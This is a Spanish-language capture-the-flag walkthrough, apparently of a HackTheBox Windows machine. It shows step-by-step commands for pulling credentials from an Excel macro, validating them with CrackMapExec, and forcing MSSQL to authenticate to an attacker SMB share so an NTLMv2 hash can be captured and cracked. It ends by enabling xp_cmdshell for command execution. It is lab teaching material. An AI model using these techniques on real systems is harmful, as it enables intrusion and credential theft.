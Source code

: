 ## Vulnerability Assessment {-}

### Analyzamos el fichero xlsm {-}

```type
type "Currency Volume Report.xlsm"
#Output
Microsoft Excel 2007+

strings Currency\ Volume\ Report.xlsm
```

#### Analysis de ficheros Microsoft office con olevba {-}

**olevba** es un script escrito en python que permitte parsear OLE y OpenXML como documentos MS Office (word, excel, ...)
para extraer codig VBA Macros en texto claro, deobfuscate y analyzo de macros maliciosas 

Installacion

```bash
git clone https://github.com/decalage2/oletools
cd oletools
python3 setup.py install
```

Utilisacion

```bash
olevba Currency\ Volume\ Report.xlsm
```

Aqui olevba nos muestra una macro `ThisWorkbook.cls` y credenciales de base de datos en texto claro.

Antes de intentar connectarnos al servicio MSSQL, validamos las credenciales con crackmapexec.

### Validacion de credenciales con CrackMapExec {-}

```bash
crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTW1HRwryjc$c6'
crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTW1HRwryjc$c6' -d WORKGROUP
```

CrackMapExec nos muestra un **[-]** que quiere decir que el usuario no es valido a nivel de dominio HTB.LOCAL. Pero
nos muestra un **[+]** con el dominio WORKGROUP. Esto quiere decir quel usuario reporting existe a nivel local.

Aqui ya savemos que la credencial es valida

### Conneccion con evil-winrm usuario reporting {-}

Como tenemos credenciales y que savemos que son validas, intentamos connectarnos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.125 -u 'reporting' -p 'PcwTW1HRwryjc'
```

Aqui no funcciona.

### Conneccion al servicio MSSQL usuario reporting {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
password: PcwTW1HRwryjc$c6

SQL> 
```

Con MSSQL hay un commando que se llama `xp_cmdshell` que nos permitte enviar commandos a nivel de systema

```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied
```

Aqui el truquillo seria de configurar la possibilidad al usuario de ejecutar commandos avanzados

```bash
sp_configure "show advanced", 1
#Output
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action
```

Como aqui vemos que el usuario reporting no tiene derechos de lanzar commandos o modificar las configuraciones, lo que vamos a intentar
es entablar una conneccion a nivel de red que el proprio usuario reporting no puede hacer porque es usuario local. Hay un commando de
MSSQL llamado `xp_dirtree` que permitte buscar ficheros en recursos compartidos

1. En la maquina de attackante, creamos un recurso compartido con smb

    ```bash
    impacket-smbserver smbFolder $(pwd) --smb2support
    ```

1. En el mssql lanzamos el commando

    ```bash
    xp_dirtree "\\10.10.14.8\smbFolder\test"
    ```

Ya podemos ver que la conneccion a funccionado y que podemos ver un hash NTLMv2 del usuario **mssql-svc**.
Aqui copiamos el hash en un fichero y lo crackeamos con John. A vezes el hash puede que no sea del todo correcto, y si es
el caso, podemos intentar hacer la misma maniobra con la herramienta **responder** en vez de la **impacket-smbserver**

1. En la maquina de attackante, creamos un recurso compartido con smb

    ```bash
    python3 /usr/share/responder/Responder.py -I tun0 -rdw
    ```

1. En el mssql lanzamos el commando

    ```bash
    xp_dirtree "\\10.10.14.8\EEEE"
    ```

Aqui podemos ver que tambien se puede interceptar el hash NTLMv2.

### Crackeo de hash NTLMv2 con John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya hemos podido crackear el hash NTLMv2 del usuario **mssql-svc**. Y como siempre cuando el servicio **SMB** esta abierto, 
nueva credencial obtenida, nueva credencial que validamos con CrackMapExec.

### Validacion de las creds de mssql-svc {-}

```bash
crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

CrackMapExec nos reporta un **[+]** quiere decir que las credenciales son validas. Nuevamente intentamos connectarnos por
WinRM

### Conneccion con evil-winrm usuario mssql-svc {-}

Como tenemos credenciales y que savemos que son validas, intentamos connectarnos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.125 -u 'mssql-svc' -p 'corporate568'
```

Aqui tampoco nos funcciona.

### Conneccion al servicio MSSQL usuario mssql-svc {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/mssql-svc:corporate568@10.10.10.125 -windows-auth

SQL> 
```

Intentamos el commando `xp_cmdshell`

```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component
    'xp_cmdshell' because this component is turned off ...
```

Aqui el error es distincto al del otro usuario. Intentamos nuevamente modificar las configuraciones.

```bash
sp_configure "xp_cmdshell", 1
#Output
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
```

El mensaje de error aqui es claro, y si es una option avanzada tenemos que modificar la config de esta option.

```bash
sp_configure "show advanced", 1
reconfigure
sp_configure "xp_cmdshell", 1
reconfigure
xp_cmdshell "whoami"
#Output

querier\mssql-svc
```

Ahora si. Ya podemos lanzar commandos a nivel de systema. La idea ahora seria meternos en el systema con una reverse shell.
